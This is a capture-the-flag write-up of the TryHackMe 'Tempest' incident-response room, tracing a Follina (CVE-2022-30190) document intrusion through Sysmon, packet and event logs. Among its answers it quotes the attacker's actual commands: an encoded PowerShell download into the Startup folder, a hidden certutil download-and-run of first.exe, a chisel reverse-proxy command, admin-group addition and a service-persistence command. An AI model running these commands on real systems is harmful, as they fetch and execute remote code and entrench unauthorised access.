# Tempest Incident: Malicious Document Investigation

[here](https://tryhackme.com/room/tempestincident)

## Scenario
As an Incident Responder, you are investigating a CRITICAL severity alert triaged by a Security Operations Center (SOC) analyst at CyberT. The intrusion began with a malicious `.doc` document downloaded via `chrome.exe`, which executed a chain of commands to achieve code execution. The investigation uses Sysmon logs, packet captures (analyzed with Brim and Wireshark), and Windows event logs to trace the attack from initial compromise to persistence. The attacker leveraged a remote code execution exploit, established a command-and-control (C2) connection, performed internal reconnaissance, escalated privileges, and implemented persistence mechanisms. This README details the investigation approach and findings, with screenshots placed as provided by the user.

## Challenge Questions and Findings

### Initial Compromise
#### 1. File Name of the Malicious Document
**Question**: The user of this machine was compromised by a malicious document. What is the file name of the document?

**Answer**: `free_magicules.doc`

**Investigation**: Used Timeline Explorer to filter Sysmon logs for `.doc` files, identifying `free_magicules.doc` as suspicious.

**Screenshot**: 

#### 2. Compromised User and Machine
**Question**: What is the name of the compromised user and machine? (Format: username-machine name)

**Answer**: `benimaru-TEMPEST`

**Investigation**: Extracted the username field from Sysmon logs associated with `free_magicules.doc`, revealing `benimaru-TEMPEST`.

**Screenshot**: 

#### 3. PID of Microsoft Word Process
**Question**: What is the PID of the Microsoft Word process that opened the malicious document?

**Answer**: `496`

**Investigation**: Identified the `winword.exe` process in Sysmon logs that opened `free_magicules.doc`, with PID 496.

**Screenshot**: 

#### 4. IPv4 Address Resolved by Malicious Domain
**Question**: Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

**Answer**: `167.71.199.191`

**Investigation**: Found the domain resolution event in Sysmon logs linked to `free_magicules.doc`, resolving to `167.71.199.191`.

**Screenshot**: 

#### 5. Base64 Encoded String in Payload
**Question**: What is the base64 encoded string in the malicious payload executed by the document?

**Answer**: `JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==`

**Investigation**: Identified the base64-encoded payload executed by `msdt.exe` in Sysmon logs, linked to the malicious document.

**Screenshot**: 

#### 6. CVE Number of Exploit
**Question**: What is the CVE number of the exploit used by the attacker to achieve a remote code execution? (Format: XXXX-XXXXX)

**Answer**: `2022-30190`

**Investigation**: Confirmed the exploit as Follina (CVE-2022-30190), a known Microsoft Word vulnerability used for remote code execution, via Sysmon log analysis.

**Screenshot**: 

### Malicious Document - Stage 2
#### 7. Full Target Path of Payload
**Question**: The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

**Answer**: `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

**Investigation**: Sysmon logs (Event ID 11) showed file creation in the Startup folder, triggered by the decoded base64 payload, indicating Autostart execution.

**Screenshot**: 

#### 8. Executed Command on Login
**Question**: The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user? (Format: Remove the double quotes from the log)

**Answer**: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f http://phishteam.xyz/02dcf07/first.exe C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe`

**Investigation**: Decoded the base64 string from Sysmon logs (line 131) and confirmed the command executed by `explorer.exe` (parent process) post-login, using Sysmon Event ID 1.

**Screenshot**: 

#### 9. SHA256 Hash of Malicious Binary
**Question**: Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

**Answer**: `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8`

**Investigation**: Extracted the SHA256 hash of `first.exe` from Sysmon logs, associated with the stage 2 payload download.

**Screenshot**: 

#### 10. C2 Domain and Port
**Question**: The stage 2 payload downloaded establishes a connection to a C2 server. What is the domain and port used by the attacker? (Format: domain:port)

**Answer**: `resolvecyber.xyz:80`

**Investigation**: Identified the C2 connection in Sysmon network events, showing `first.exe` connecting to `resolvecyber.xyz` on port 80.

**Screenshot**: 

### Malicious Document Traffic
#### 11. URL of Malicious Payload
**Question**: What is the URL of the malicious payload embedded in the document?

**Answer**: `http://phishteam.xyz/02dcf07/index.html`

**Investigation**: Used Brim with filter `_path=="http" "phishteam.xyz"` on packet captures, identifying the malicious payload URL.

**Screenshot**: 

#### 12. Encoding Used in C2 Connection
**Question**: What is the encoding used by the attacker on the C2 connection?

**Answer**: `base64`

**Investigation**: Analyzed packet captures in Wireshark, confirming base64 encoding in the C2 traffic for `resolvecyber.xyz`.

**Screenshot**: 

#### 13. Parameter for Executed Command Results
**Question**: The malicious C2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?

**Answer**: `q`

**Investigation**: Found the `q` parameter in packet captures, containing base64-encoded command results (`q='base64'`).

**Screenshot**: 

#### 14. URL for C2 Command Execution
**Question**: The malicious C2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?

**Answer**: `/9ab62b5`

**Investigation**: Identified the C2 URL `/9ab62b5` in packet captures for command retrieval by `first.exe`.

**Screenshot**: 

#### 15. HTTP Method Used by Binary
**Question**: What is the HTTP method used by the binary?

**Answer**: `GET`

**Investigation**: Confirmed the HTTP `GET` method in Wireshark packet captures for C2 communication.

**Screenshot**: 

#### 16. Programming Language of Binary
**Question**: Based on the user agent, what programming language was used by the attacker to compile the binary? (Format: Answer in lowercase)

**Answer**: `nim`

**Investigation**: Analyzed the user-agent string in packet captures, indicating the binary was compiled with Nim.

**Screenshot**: 

### Internal Reconnaissance
#### 17. Malicious Domain for Reconnaissance
**Question**: What is the malicious domain used for internal reconnaissance?

**Answer**: `infernotempest`

**Investigation**: Filtered Sysmon and network events for connections to malicious domains, identifying `infernotempest` used for enumeration.

**Screenshot**: 

#### 18. Port for Reconnaissance
**Question**: What is the port used for internal reconnaissance?

**Answer**: `5985`

**Investigation**: Found port 5985 (WinRM) in Sysmon network events linked to `infernotempest`.

**Screenshot**: 

#### 19. Command for Reverse Socks Proxy
**Question**: What is the command used to establish the reverse socks proxy?

**Answer**: `C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks`

**Investigation**: Identified the `chisel` command in Sysmon logs for establishing a reverse socks proxy to `167.71.199.191:8080`.

**Screenshot**: 

#### 20. SHA256 Hash of Proxy Binary
**Question**: What is the SHA256 hash of the reverse socks proxy binary?

**Answer**: `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451`

**Investigation**: Extracted the SHA256 hash of `ch.exe` from Sysmon logs.

**Screenshot**: 

#### 21. Name of Proxy Tool
**Question**: What is the name of the tool used for the reverse socks proxy? (Format: Answer in lowercase)

**Answer**: `chisel`

**Investigation**: Confirmed the tool as `chisel` based on the binary name and behavior in Sysmon logs.

**Screenshot**: 

#### 22. Service Used for Proxy
**Question**: What is the service used by the reverse socks proxy?

**Answer**: `winrm`

**Investigation**: Identified port 5985 (WinRM) in network events, confirming its use for the reverse proxy.

**Screenshot**: 

### Privilege Escalation
#### 23. Privilege Escalation Binary and Hash
**Question**: After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary? (Format: binary name,SHA256 hash)

**Answer**: `spf.exe,8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D`

**Investigation**: Found `spf.exe` in Sysmon logs post-proxy execution, with its SHA256 hash.

**Screenshot**: 

#### 24. Name of Privilege Escalation Tool
**Question**: Based on the SHA256 hash of the binary, what is the name of the tool used? (Format: Answer in lowercase)

**Answer**: `printspoofer`

**Investigation**: Identified `spf.exe` as `PrintSpoofer` based on its SHA256 hash and known behavior.

**Screenshot**: 

#### 25. Exploited Privilege
**Question**: The tool exploits a specific privilege owned by the user. What is the name of the privilege?

**Answer**: `SeImpersonatePrivilege`

**Investigation**: Confirmed `PrintSpoofer` exploits `SeImpersonatePrivilege` for escalation, per Sysmon logs.

**Screenshot**: 

#### 26. C2 Binary for Escalation
**Question**: Then, the attacker executed the tool with another binary to establish a C2 connection. What is the name of the binary?

**Answer**: `final.exe`

**Investigation**: Identified `final.exe` in Sysmon logs as the C2 binary executed post-escalation.

**Screenshot**: 

#### 27. C2 Port for Escalation
**Question**: The binary connects to a different port from the first C2 connection. What is the port used?

**Answer**: `8080`

**Investigation**: Found `final.exe` connecting to port 8080 in Sysmon network events, distinct from the initial C2 port (80).

**Screenshot**: 

### Fully-Owned Machine
#### 28. Account Names Created
**Question**: Upon achieving SYSTEM access, the attacker then created two users. What are the account names? (Format: Answer in alphabetical order - comma delimited)

**Answer**: `shion,shuna`

**Investigation**: Windows event logs (Event ID 4720) showed creation of `shion` and `shuna` accounts.

**Screenshot**: 

#### 29. Missing Option in Failed Account Creation
**Question**: Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?

**Answer**: `/add`

**Investigation**: Analyzed Windows event logs for failed `net user` commands, identifying the missing `/add` option.

**Screenshot**: 

#### 30. Event ID for Account Creation
**Question**: Based on Windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity?

**Answer**: `4720`

**Investigation**: Confirmed Event ID 4720 in Windows event logs for successful account creation.

**Screenshot**: 

#### 31. Command to Add to Administrators Group
**Question**: The attacker added one of the accounts in the local administrator’s group. What is the command used by the attacker?

**Answer**: `net localgroup administrators /add shion`

**Investigation**: Found the `net localgroup` command in Windows event logs adding `shion` to the administrators group.

**Screenshot**: 

#### 32. Event ID for Group Addition
**Question**: Based on Windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?

**Answer**: `4732`

**Investigation**: Confirmed Event ID 4732 in Windows event logs for adding `shion` to the administrators group.

**Screenshot**: 

#### 33. Command for Persistent Administrative Access
**Question**: After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this? (Format: Remove the double quotes from the log)

**Answer**: `C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto`

**Investigation**: Identified a Windows service creation command in Sysmon logs, using `sc.exe` to ensure `final.exe` runs automatically for persistence.

**Screenshot**: 

